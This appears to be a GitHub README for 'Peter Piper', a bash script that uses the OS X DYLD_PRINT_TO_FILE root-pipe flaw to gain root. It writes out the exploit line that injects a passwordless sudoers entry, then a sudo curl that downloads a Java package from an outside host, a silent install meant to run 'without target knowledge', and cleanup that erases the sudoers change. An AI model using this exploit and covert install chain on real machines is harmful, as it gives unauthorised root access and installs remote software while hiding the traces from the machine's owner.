 # Peter Piper Documentation #

__1. INTRODUCTION__
<br>
This script was made as an alternative to legitimate authentication in Applescript. This script uses a method of exploitation in OS X called root piping.

<br>

__2. EXPLOIT__
<br>
This exploit uses a vulnerability that was properly fixed in OS X 10.10.5. It’s reference information is [here](https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html).
This exploit gives whatever user that executes it admin instantly.

<br>

__3. INSTALL__
<br>
We use `cURL` to get the Java 8 Update 60 package onto the target computer and into a temporary directory, then the `installer` command featured in the OS X command line to install the .pkg we fetched. This is the correct command for this particular task because it skips the graphical installer meaning it can run behind the scenes without target knowledge.

<br>

__4. CLEANUP__
<br>
We first remove the temporary directory used to store the Java package during install, then we use the command `sed` to remove the target from the sudoers list.

<br>

__5. `function KeepSafe { }` & `trap`__
<br>
This is used to ensure the completion of the command if it fails.

<br>

<br>

## IN-DEPTH LOOK AT `function KeepSafe { }` COMMANDS ##

`echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;` ___- Exploit the machine___
<br>
`sudo bash -c ` ___- Create a root bash shell___
<br>
`if [[ $EUID -ne 0 ]]; then echo -e "\033[1mFailed! No root!\033[0m $(exit 1)";` ___- Check if the exploit actually worked, if not, exit the script___
<br>
`sudo mkdir -v /tmp$$;` ___- Make a temporary directory to store the package in___
<br>
`sudo curl -# http://thrifus.co/jump/j8u60.pkg > /tmp$$/j8u60.pkg;` ___- Get the package___
<br>
`sudo installer -verbose -pkg /tmp$$/j8u60.pkg -target LocalSystem;` - ___Install the package___
<br>
`sudo sed -i "" "/NOPASSWD:ALL/d" /etc/sudoers;` ___- Remove the line allowing root access without a password___
<br>
`rm -rfv /tmp$$;` ___- Remove the temporary directory___
